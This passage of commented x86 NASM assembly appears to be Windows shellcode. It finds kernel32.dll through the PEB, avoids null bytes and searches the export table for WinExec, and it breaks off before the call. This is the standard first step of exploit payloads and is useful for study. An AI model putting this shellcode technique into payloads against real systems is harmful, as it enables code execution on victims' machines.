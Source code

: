 ```nasm
	push esi			; null termination
	push 63h
	pushw 6578h
	push 456e6957h
	mov [ebp-4], esp 		; var4 = "WinExec\x00"

	; Find kernel32.dll base address
	xor esi, esi			; esi = 0
        mov ebx, [fs:30h + esi]  	; written this way to avoid null bytes
	mov ebx, [ebx + 0x0C] 
	mov ebx, [ebx + 0x14] 
	mov ebx, [ebx]	
	mov ebx, [ebx]	
	mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
	mov [ebp-8], ebx 		; var8 = kernel32.dll base address

	; Find WinExec address
	mov eax, [ebx + 3Ch]		; RVA of PE signature
	add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
	mov eax, [eax + 78h]		; RVA of Export Table
	add eax, ebx 			; Address of Export Table

	mov ecx, [eax + 24h]		; RVA of Ordinal Table
	add ecx, ebx 			; Address of Ordinal Table
	mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

	mov edi, [eax + 20h] 		; RVA of Name Pointer Table
	add edi, ebx 			; Address of Name Pointer Table
	mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

	mov edx, [eax + 1Ch] 		; RVA of Address Table
	add edx, ebx 			; Address of Address Table
	mov [ebp-14h], edx 		; var20 = Address of Address Table

	mov edx, [eax + 14h] 		; Number of exported functions

	xor eax, eax 			; counter = 0

	.loop:
	        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
	        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
	        xor ecx, ecx

	        cld  			; set DF=0 => process strings from left to right
	        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
	        			; edi = RVA Nth entry = Address of Name Table * 4
	        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
	        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
	        repe cmpsb        	; Compare the first 8 bytes of strings in 
	        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
	        jz start.found

	        inc eax 		; counter++
	        cmp eax, edx    	; check if last function is reached
	        jb start.loop 		; if not the last -> loop

	        add esp, 26h      		
	        jmp start.end 		; if function is not found, jump to end

	.found:
		; the counter (eax) now holds the position of WinExec

	        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
```